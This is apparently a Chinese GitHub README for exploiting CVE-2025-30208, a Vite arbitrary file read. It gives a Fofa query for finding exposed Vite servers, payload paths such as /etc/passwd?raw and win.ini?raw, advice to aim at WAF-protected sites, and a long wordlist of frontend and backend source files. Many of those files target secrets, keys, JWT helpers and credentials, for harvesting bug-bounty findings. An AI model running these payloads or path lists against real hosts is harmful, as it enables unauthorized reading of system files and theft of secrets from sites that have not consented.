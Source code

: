 # CVE-2025-30208
通过url去拼接下面路径来任意文件读取

Fofa测绘语句:

body="/@vite/client"


```
/etc/passwd?raw"  # Linux系统文件

"/Windows/win.ini?raw" #windows文件
```
搜集完后去扫基本已经没剩几个了，很多都重复，不过有个其他的思路。讲一个小技巧，现在基本上常规的直接拼接路径已经刷烂了，不过我们可以把注意力放到一些403和有waf的网站
![a3bb815b6baee72ad140b6c829163a8](https://github.com/user-attachments/assets/bfd9424e-933d-43a1-bc16-c2f1038b47f2)

我们通过拼接这个路径去看有没有相关的内容，然后拼接一些vue开发最为熟悉的一些路径,下面为一些举例，具体还是需要看网站的线索来分析，通过一步步的扫雷式来进行扩散最后完成挖掘，这样我们就可以捡漏拿站交src了
以上思路仅供参考~

例如

/project/frontend/src/views/home.vue

/project/frontend/src/views/about.vue

/project/frontend/src/views/products.vue

/project/frontend/src/views/cart.vue

/project/frontend/src/views/checkout.vue

/project/frontend/src/views/orders.vue

/project/frontend/src/views/contact.vue

/project/frontend/src/views/faq.vue

/project/frontend/src/views/privacyPolicy.vue

/project/frontend/src/views/termsOfUse.vue

/project/frontend/src/views/profileEdit.vue

/project/frontend/src/views/changePassword.vue

/project/frontend/src/views/maintenance.vue

/project/frontend/src/constants/api-config.js

/project/frontend/src/constants/security-keys.js

服务类

/project/frontend/src/services/auth-handler.js

/project/frontend/src/services/cloud-service.js

/project/frontend/src/services/payment.js

页面组件
/project/frontend/src/views/admin/settings.vue

/project/frontend/src/views/admin/dashboard.vue

/project/frontend/src/views/admin/users.vue

/project/frontend/src/views/admin/orders.vue

/project/frontend/src/views/payment/confirm.vue

/project/frontend/src/views/user/security.vue

/project/frontend/src/views/user/profile.vue

/project/frontend/src/views/user/orders.vue

# 路由与状态

/project/frontend/src/router/private-routes.js

/project/frontend/src/router/admin-routes.js

/project/frontend/src/store/modules/secure-store.js

/project/frontend/src/store/modules/admin-store.js

# 后端路径
## 配置类

/project/backend/src/config/private-settings.js

/project/backend/src/config/third-party-keys.js

/project/backend/src/config/secret-manager.js

## 工具类

/project/backend/src/utils/crypto-helpers.js

/project/backend/src/utils/secure-logger.js

/project/backend/src/utils/jwt-generator.js

## 服务类
/project/backend/src/services/secure-auth.js

/project/backend/src/services/cloud-storage.js

/project/backend/src/services/payment-gateway.js
## 控制器
/project/backend/src/controllers/admin/security.js
/project/backend/src/controllers/admin/dashboard.js
/project/backend/src/controllers/admin/users.js
/project/backend/src/controllers/admin/orders.js
/project/backend/src/controllers/payment/process.js
/project/backend/src/controllers/user/credentials.js
/project/backend/src/controllers/user/profile.js
/project/backend/src/controllers/user/orders.js
